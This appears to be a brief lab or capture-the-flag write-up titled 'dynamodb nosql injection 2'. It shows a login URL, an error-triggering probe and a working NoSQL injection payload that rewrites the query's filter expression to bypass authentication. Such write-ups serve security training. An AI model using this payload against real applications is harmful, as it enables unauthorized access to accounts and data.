


# dynamodb nosql injection 2

Username and password submitted through url `/index.jsp?property=UserName&value=bob&password=password`

Submitting `:test` to property - `/index.jsp?property=:test&value=bob&password=password` gives an error

Replace payload with `/index.jsp?property=:value=:value or :value&value=bob&password=password`

